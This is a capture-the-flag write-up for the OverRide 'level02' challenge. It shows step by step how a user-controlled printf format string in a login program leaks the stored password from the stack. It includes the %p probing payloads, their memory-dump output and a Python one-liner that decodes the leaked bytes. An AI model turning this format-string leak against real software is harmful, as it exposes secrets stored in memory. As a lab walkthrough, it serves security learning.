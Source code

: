 # Level 02

For the first time we have a x64 program that reads the password file and then check the user input against it to give a shell.

It also calls printf with a format string the user controls.
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: rewrite it in %p %d
--[ Password: javascript
*****************************************
rewrite it in 0x7fffffffe4d0 0 does not have access!
```

Let's check what the value of our format string is in hex:
```shell
level02@OverRide:~$ python -c 'print "%p|".encode("hex")'
25707c
```

Let's now scan the memory to find it:
```shell
level02@OverRide:~$ ./level02 < <(python -c 'print "%p|"*30')
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4d0|(nil)|(nil)|0x2a2a2a2a2a2a2a2a|0x2a2a2a2a2a2a2a2a|0x7fffffffe6c8|0x1f7ff9a08|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x100000000|(nil)|0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d|(nil)|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70| does not have access!
```

We can see that it's the 28th parameter to printf, more interesting looking at the position of the variables in the stack, the password buffer should come right before it.
The trailing 0 confirms our suspicions.

Let's convert these blocks to ascii, while keeping in mind to account for the endianness.
```
756e505234376848|45414a3561733951|377a7143574e6758|354a35686e475873|48336750664b394d
```

```shell
python -c 'import struct;print "".join([struct.pack("<Q", x) for x in [0x756e505234376848, 0x45414a3561733951, 0x377a7143574e6758, 0x354a35686e475873, 0x48336750664b394d]])'
[redacted]
```
Nice!
